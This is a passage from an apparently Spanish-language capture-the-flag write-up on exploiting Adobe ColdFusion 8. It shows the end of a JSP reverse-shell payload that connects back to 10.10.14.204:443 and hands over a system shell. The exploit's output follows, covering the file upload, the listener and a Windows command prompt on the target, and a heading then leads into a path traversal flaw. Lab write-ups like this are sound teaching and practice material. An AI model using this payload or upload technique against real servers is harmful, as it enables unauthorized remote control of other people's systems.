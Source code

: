 ```ruby
      } catch( Exception e ){}
      try
      {
        if( tz != null )
          tz.close();
        if( xZq != null )
          xZq.close();
      } catch( Exception e ){}
    }
  }

  try
  {
    String ShellPath;
if (System.getProperty("os.name").toLowerCase().indexOf("windows") == -1) {
  ShellPath = new String("/bin/sh");
} else {
  ShellPath = new String("cmd.exe");
}

    Socket socket = new Socket( "10.10.14.204", 443 );
    Process process = Runtime.getRuntime().exec( ShellPath );
    ( new StreamConnector( process.getInputStream(), socket.getOutputStream() ) ).start();
    ( new StreamConnector( socket.getInputStream(), process.getOutputStream() ) ).start();
  } catch( Exception e ) {}
%>

--9f93cb0c7f9f409d8287650d81409efc--


Sending request and printing response...


		<script type="text/javascript">
			window.parent.OnUploadCompleted( 0, "/userfiles/file/fd3868f42475416fa6b58b62a8d39a37.jsp/fd3868f42475416fa6b58b62a8d39a37.txt", "fd3868f42475416fa6b58b62a8d39a37.txt", "0" );
		</script>
	

Printing some information for debugging...
lhost: 10.10.14.204
lport: 443
rhost: 10.129.36.166
rport: 8500
payload: fd3868f42475416fa6b58b62a8d39a37.jsp

Deleting the payload...

Listening for connection...

Executing the payload...
listening on [any] 443 ...
connect to [10.10.14.204] from (UNKNOWN) [10.129.36.166] 49281

Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>
```
### Directory Traversal Vulnerability  
Aislado al RCE, ColdFusion hay una vulnerabilidad de tipo **Path Traversal** como lo miramos a continuacion: